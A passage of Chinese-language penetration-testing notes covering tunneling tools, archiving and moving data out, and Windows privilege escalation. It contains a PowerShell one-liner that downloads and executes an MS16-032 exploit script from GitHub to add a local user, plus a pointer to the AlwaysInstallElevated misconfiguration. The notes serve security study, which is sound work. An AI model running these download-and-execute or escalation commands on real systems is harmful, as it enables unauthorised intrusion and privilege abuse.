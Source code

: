 ### 2.5.5. [Termite](https://github.com/rootkiter/Termite.git)

### 2.5.6. [reGeorg](https://github.com/sensepost/reGeorg.git)


## 2.6. 数据通信
### 2.6.1. 压缩数据
[7zip](https://www.7-zip.org/)
```ssh
>压缩文件：
7z.exe  a -r -p12345 E:\path\to\file.7z   C:\path\to\file\
>解压文件：
>7z.exe x -p12345  E:\path\to\file.7z -o E:\x

```
### 2.6.2. 传输数据
>https://mp.weixin.qq.com/s/tINvBuhiZwz7MbA_sffapA
### 2.6.3. 利用FTP协议

### 2.6.4. 利用Debug上传

### 2.6.5. 利用Nishang上传-download-execute

### 2.6.6. 利用bitsadmin下载

### 2.6.7. 利用powershell下载


# 3. Windows权限提升分析及防御

## 3.1. 系统内核溢出漏洞提权分析及防范
[Windows Exploit Suggester](https://github.com/SecWiki/windows-kernel-exploits.git)

### 3.1.1. MS16-032提权-KB3139914
```ssh
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1");Invoke-MS16-032 -Application cmd.exe -Commandline '/c net admins 12345 /add' "

```



## 3.2. windows操作系统配置错误利用分析及防范
### 3.2.1. 注册表键AlwaysInstallElevated
>gpedit.msc >windows Installer-永远以高权限进行安装

